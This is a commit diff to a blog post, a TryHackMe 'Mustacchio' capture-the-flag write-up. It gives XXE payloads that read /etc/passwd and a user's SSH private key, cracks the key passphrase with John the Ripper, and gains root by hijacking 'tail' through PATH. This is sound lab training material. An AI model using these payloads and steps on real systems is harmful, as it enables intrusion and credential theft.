

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-10-10-mustacchio.md, in a window 1280 px wide and 1400 px high, scrolled down 518 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-10-10-mustacchio.md

```diff
--- a/_posts/2025-10-10-mustacchio.md
+++ b/_posts/2025-10-10-mustacchio.md
@@ -6,17 +6,12 @@
 tags: tryhackme wordpress
 comments: false
 ---
-# Mustaccio
 -TRYHACKME CTF WRITEUP-
 [Link To CTF](https://tryhackme.com/room/mrrobot)
-
-
-
-mustaccio
-
-
-nmap shows 80 and 22 open
-
+<br>
+<br>
+c
+Our nmap scan shows ports 80 and 22 are open
 
 webpage shows not much - lot of placeholder pages
 
@@ -42,36 +37,29 @@
 
 bulldog19
 
-ssh into machine as admin - didn't work
-ssh with -i <password file> - didn't work
-no other directories
-no /admin or /logn
+I got stuck here.
+I did not see any login pages
+And ssh with the password was also failing
+Lets go back and see what we missed
 
 
-nmap -p- shows higher port open: 8765
+AHH, so nmap -p- shows higher port open: 8765
+navigating here shows the admin panel login page
 
-navigating here shows admin panel login page
+Thecredentials we gathered are accepted here
+Logging in we see a message board
+Putting in random text gives un an error
 
 
-logging in we see a message board
-putting in random text gives un an error
-
-
-Sendign another request and capturing in burp
-looking at the response we can see:
+Let's send another request and capture the response in burpsuite
+Looking at the response we can see:
 1. username: Barry
 2. ssh is allowed with the correct key
 3. there is a directory /auth/dontforget.bak
-
+<br>
 This shows us the xml format we will need to use
 
-
-https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
-
-We will modify and test the basic blind XXE vulnerability:
-
 ----------------------
-
 <?xml version="1.0" encoding="UTF-8"?>
 
 <comment>
@@ -82,6 +70,15 @@
 
 -----------------------
 
+<br>
+It looks like this is vulnerable to a XXE injection
+Let's check out example exploits found below:
+https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
+<br>
+We will modify and test the basic blind XXE vulnerability:
+
+-----------------------
+
 <?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
 <comment>
@@ -89,7 +86,8 @@
   <author>10DNC</author>
   <com>&test;</com>
 </comment>
-
+-----------------------
+This works, Lets try and get barries credentials:
 
 <?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
@@ -100,48 +98,45 @@
 </comment>
 
 -----------------
+We now get the ssh id_rsa key for barry
 
-get id_rsa key
-save to text file
+We can save this to text file:
 > nano id_rsa
 
-lower permissions --
-
+We will then lower the permissions:
 > chmod 600 id_rsa
 
-use sshjohn to create hash
-
+Now use sshjohn to create hash
 > ssh2john id_rsa > hash
 
-use john to crack hash
-
+Then use JTR to crack hash
 > john -w=/usr/share/wordlists/rockyou.txt mustacchio_hash
 
-login with ssh
+Now we can login with ssh using our new credentials
+> ssh -i id_rsa barry@<target_IP>
+> password: uriel james
 
-> ssh -i id_rsa barry@*.*.*.*
-> uriel james
-
-
-get user flag !!!!
-
-
-priv esc
-
-we see another user with an elf file
-
-running strings we see that its calling another file using tail
-
+We now have a shell and can get user flag !!!!
+<br>
+<br>
+<br>
+# priv esc
+<br>
+<br>
+Looking around,
+We see another user
+There is an accessible elf file we can read
+<br>
+Running strings we see that its calling another file using tail
 We dont have permission to access to this file
-
-
-Lets hijack the "tail" command
-
+<br>
+Lets hijack the "tail" command:
 
 go into /tmp
 echo "/bin/bash" > tail
+
 run the live_log:
 /home/joe/live_log
 
-get root
-read root flag
+We are now root
+Let's catpure the root flag and pwn the machine !!!
```
